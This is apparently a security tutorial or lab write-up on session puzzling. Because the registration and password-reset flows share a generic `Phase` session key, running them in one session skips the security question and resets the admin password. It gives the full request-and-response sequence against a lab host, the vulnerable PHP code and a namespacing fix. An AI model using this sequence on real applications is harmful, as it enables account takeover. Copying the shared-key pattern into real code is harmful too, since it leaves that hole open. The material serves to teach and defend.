

This case is more representative of real-world session puzzling than a simple shared login flag. The application implements two separate multi-step processes, user registration and password reset, each tracked through its own sequence of phases. Both processes happen to use the same session variable name to record which phase the user is currently on. As long as a user only runs one process at a time, this works fine. The vulnerability appears when both processes are driven concurrently in the same session, since advancing one process's phase counter also satisfies the phase check for the other, letting an attacker skip steps they were never supposed to be able to skip, in this case the security question in a password reset flow.

This type of bug is rarely visible from the outside without deliberately testing processes against each other, there is no single broken check, the break only exists at the intersection of two otherwise correctly implemented flows.

---

## Identifying the Shared Phase Variable

Start by mapping both multi-step flows independently. Registration is split across three endpoints, and skipping ahead is blocked:

```http
GET /register_3.php HTTP/1.1
Host: webapp.corp
```

```http
HTTP/1.1 302 Found
Location: /index.php?msg=Please+complete+Phase+2+first
```

Password reset follows the same three-phase structure, username, security question, new password. Confirm that phase progress is tied to the session rather than to anything in the request body. First complete phase one of the reset flow for a known low-privilege account and capture the session cookie:

```http
POST /reset_1.php HTTP/1.1
Host: webapp.corp
Content-Type: application/x-www-form-urlencoded

Username=student
```

```http
HTTP/1.1 302 Found
Set-Cookie: PHPSESSID=1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d
Location: /reset_2.php
```

Then attempt phase two with a different, invalid session:

```http
POST /reset_2.php HTTP/1.1
Host: webapp.corp
Cookie: PHPSESSID=0000000000000000000000000000000
Content-Type: application/x-www-form-urlencoded

Answer=4
```

```http
HTTP/1.1 302 Found
Location: /login.php?msg=Please+complete+Phase+1+first
```

Now repeat the exact same phase two request, but with the valid session from the earlier step:

```http
POST /reset_2.php HTTP/1.1
Host: webapp.corp
Cookie: PHPSESSID=1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d
Content-Type: application/x-www-form-urlencoded

Answer=4
```

```http
HTTP/1.1 302 Found
Location: /reset_3.php
```

This confirms the current phase is stored server side, keyed to the session, not passed or re-validated per request. The next question, which only trial and error or source review answers, is whether this same phase variable is reused by any other feature in the application.

---

## Exploiting the Collision

The goal is to reach `/reset_3.php` for the admin account without ever answering admin's security question, since that answer is unknown. Directly jumping from reset phase one to reset phase three fails, because the session's `Phase` value is still `2`, not `3`, and the reset flow checks for that exact value before allowing the final step.

The registration process, however, also increments the same `Phase` variable as the user progresses through its own steps. If both processes are driven in the same session, finishing registration's phase two effectively sets `Phase` to the same value that the reset flow expects, regardless of which process actually produced it.



The practical request sequence looks like this. First, start the password reset for the admin account to anchor `reset_username` to the target:

```http
POST /reset_1.php HTTP/1.1
Host: webapp.corp
Content-Type: application/x-www-form-urlencoded

Username=admin
```

```http
HTTP/1.1 302 Found
Set-Cookie: PHPSESSID=7f8e9d0c1b2a3f4e5d6c7b8a9f0e1d2c
Location: /reset_2.php
```

Using that same session, switch over to the registration process and progress it independently, this does not need to use real or meaningful data, its only purpose is to push the shared `Phase` variable forward:

```http
POST /register_1.php HTTP/1.1
Host: webapp.corp
Cookie: PHPSESSID=7f8e9d0c1b2a3f4e5d6c7b8a9f0e1d2c
Content-Type: application/x-www-form-urlencoded

Username=throwaway&Password=Temp123!&Description=test&Question=1+1&Answer=2&PhoneNumber=0000000000&Address=N/A
```

```http
HTTP/1.1 302 Found
Location: /register_2.php
```

```http
POST /register_2.php HTTP/1.1
Host: webapp.corp
Cookie: PHPSESSID=7f8e9d0c1b2a3f4e5d6c7b8a9f0e1d2c
Content-Type: application/x-www-form-urlencoded

Submit=1
```

```http
HTTP/1.1 302 Found
Location: /register_3.php
```

At this point the session's `Phase` reflects registration's phase 3, which is numerically identical to the value the reset flow expects after completing its own phase two. Going straight to the reset flow's final step now succeeds, targeting the admin account whose `reset_username` is still set from the very first request:

```http
POST /reset_3.php HTTP/1.1
Host: webapp.corp
Cookie: PHPSESSID=7f8e9d0c1b2a3f4e5d6c7b8a9f0e1d2c
Content-Type: application/x-www-form-urlencoded

Password=NewAdminPass1!
```

```http
HTTP/1.1 302 Found
Location: /login.php
```

The admin account's password has been changed without ever submitting a correct answer to its security question, since the phase check that was meant to enforce that step was satisfied by an entirely unrelated process.

### Root Cause in Code

Registration advances and checks the shared variable like this:

```php
if (isset($_POST['Submit'])) {
    $_SESSION['reg_username'] = $_POST['Username'];
    $_SESSION['reg_desc']     = $_POST['Description'];
    $_SESSION['reg_pw']       = $_POST['Password'];
    $_SESSION['reg_question'] = $_POST['Question'];
    $_SESSION['reg_answer']   = $_POST['Answer'];

    $_SESSION['Phase'] = 2;
    header("Location: register_2.php");
    exit;
}
```

```php
if ($_SESSION['Phase'] !== 2) {
    header("Location: login.php?msg=Please complete Phase 1 first");
    exit;
}
```

Password reset writes to and checks the exact same key:

```php
if (isset($_POST['Submit'])) {
    $user_data = fetch_user_data($_POST['Username']);

    if ($user_data) {
        $_SESSION['reset_username'] = $user_data['username'];
        $_SESSION['Phase'] = 2;
        header("Location: reset_2.php");
        exit;
    }
}
```

Neither flow namespaces its progress tracking. Both assume `$_SESSION['Phase']` belongs exclusively to them, so whichever process last wrote to it determines what the other process believes about its own state. The reset flow's final step never re-validates that phase 2 was reached specifically through answering a security question, it only checks that the stored integer equals 3.

---

## Generalizing the Technique

This class of bug is best hunted by treating every multi-step process in an application as a state machine with its own variable names, then deliberately interleaving two of them in a single session to see if either one's state bleeds into the other. In black box conditions without source access, the methodology is mechanical, run process A up to some step, pause, run process B forward, then return to process A and see if it has silently advanced.

|Process A action|Process B action|What to check afterward|
|---|---|---|
|Start password reset (phase 1)|Advance registration to phase 2|Does reset now accept the final step without the security answer|
|Start MFA enrollment|Trigger password reset|Does reset treat the session as MFA-verified or vice versa|
|Begin checkout flow|Begin account settings update|Does a payment step execute using stale or unrelated session data|

A useful naming convention check during code review is to search for generic session keys such as `Phase`, `Step`, `Stage`, or `State` used by more than one controller or script. Any process-tracking variable that is not explicitly namespaced per feature, such as `reset_phase` versus `register_phase`, is a candidate for this exact collision, and the fix is almost always to scope the variable name to the specific process rather than reusing a shared generic key across the application.